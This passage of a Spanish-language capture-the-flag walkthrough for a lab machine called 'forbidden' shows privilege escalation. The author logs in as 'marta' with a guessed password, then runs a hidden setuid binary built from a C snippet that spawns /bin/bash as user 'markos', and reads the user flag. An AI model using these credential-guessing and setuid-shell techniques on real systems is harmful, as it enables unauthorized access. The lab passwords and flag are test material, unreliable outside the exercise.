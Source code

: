 Por lo que vemos nos indica que la contraseña de algun usuario es `vGffXfDreF453!`, pero si probamos con todos los usuarios, veremos que no hay suerte, por mas que probemos no coincidiran, pero si probamos a meter como contraseña en el usuario `marta` el nombre de la imagen:

```shell
su marta
```

Metemos como contraseña `TOPSECRETIMAGE` y veremos que si funciona.

Info:

```
marta@forbidden:/var/www/html$ whoami
marta
```

## Escalate user markos

Si vamos a la `/home` del usuario `marta` veremos un archivo `.c` que contiene lo siguiente:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(1001); setgid(1001); system("/bin/bash");
}
```

Vemos que si se ejecuta ese binario de forma compilada obtendriamos una `bash` como el usuario `markos` que pertenece al `ID` `1001`, pero si vemos hay un archivo `compilado` llamado `.forbidden` el cual tiene toda la pinta de que es ese `.c` por lo que vamos a probar a ejecutarlo.

```shell
./.forbidden
```

Ahora si vemos que usuarios somos:

```shell
whoami
```

Info:

```
markos
```

Vemos que ha funcionado y ya seremos dicho usuario, por lo que leeremos la `flag` del usuario:

> user.txt

```
HMVpussycat
```

## Escalate user peter
